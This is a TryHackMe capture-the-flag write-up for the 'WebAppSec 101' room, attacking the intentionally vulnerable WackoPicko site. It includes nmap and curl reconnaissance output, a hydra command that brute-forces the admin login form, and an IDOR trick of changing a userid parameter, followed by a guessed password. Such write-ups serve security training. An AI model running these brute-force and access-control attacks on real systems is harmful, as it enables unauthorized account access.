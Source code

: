 ```yaml
---
layout: post
title: Write-Up [THM] WebAppSec 101
categories: [Write-Ups]
tags: [TryHackMe, WebApplication]
featured-image:  thm/webapplication101/theme.png
featured-image-alt: WebApplication 101
---
```


It's a write-up about the room : [Try Hack Me - Room : WebAppSec 101](https://tryhackme.com/room/webappsec101)

# [Task 2] - Walking through the application

* What version of Apache is being used?

We used nmap to know ports opened : `nmap -sV -A ip_machine` 

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 54:04:09:42:d3:f4:07:d7:9c:e9:30:93:72:94:61:29 (RSA)
|   256 b3:a0:94:10:30:fe:f8:3b:73:72:52:b4:c2:6b:22:3d (ECDSA)
|_  256 35:86:be:66:ea:d2:ac:63:40:3d:f5:94:88:3c:83:5d (ED25519)
80/tcp  open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: WackoPicko.com
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43061/tcp   status
|   100024  1          45246/udp6  status
|   100024  1          45747/tcp6  status
|_  100024  1          57246/udp   status
```

The version of Apached used is **2.4.7**.

* What language was used to create the website? **php**

* What version of this langage is used ?

We ran : `curl -I http://10.10.55.117` to have some information about the website.

```
HTTP/1.1 200 OK
Date: Sat, 22 Aug 2020 12:06:44 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.24
Set-Cookie: PHPSESSID=oevcaecn9fkftt2ceg43rh2qj0; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Type: text/html
```

The version oh php used is **5.5.9**.

# [Task 4] - Authentication

* What is the admin username? **admin**

* What is the admin password?

We used hydra on kali linux to bruteforce the password : 

`hydra -l admin -P /usr/share/dirb/wordlists/small.txt ip_machine http-post-form "/admin/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V

* What is the name of the cookie that can be manipulated? **session**

* What is the name of the cookie that can be manipulated? 

After created an account, we could see that we could change the user with a number `ip_machine/users/sample.php?userid=1`. We changed the number to 11 and found the user **Bryce**.

* What is the corresponding password to the username? 

We tried **bryce** as password and it worked. 